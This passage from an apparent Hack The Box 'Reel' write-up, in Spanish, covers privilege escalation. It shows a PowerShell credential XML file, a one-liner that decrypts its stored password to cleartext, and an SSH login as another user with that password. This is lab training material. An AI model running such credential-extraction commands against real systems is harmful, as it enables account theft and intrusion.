 ![](/assets/images/htb-writeup-reel/ganar-acceso-como-nico.png)

## Elevacion de privilegios

En el directorio nico\Desktop nos encontramos un cred.xml

```powershell
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```

Tenemos una password "cifrada", tratamos de  ver como podemos obtenerla en texto claro.

```powershell
c:\Users\nico\Desktop\powershell -c "$cred = Import-Clixml -Path cred.xml;$cred.GetNetworkCredential().Password"
# password -> 1ts-mag1c!!!

c:\Users\nico\Desktop>
```

Nos conectamos como Tom

```powershell
sshpass '1ts-mag1c!!!' tom@10.10.10.77

Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

tom@REEL C:\Users\tom>whoami                                                                                                    
htb\tom                                                                                                                         

tom@REEL C:\Users\tom> 
```
Vemos un acls.csv y lo traemos a nuestra maquiná.
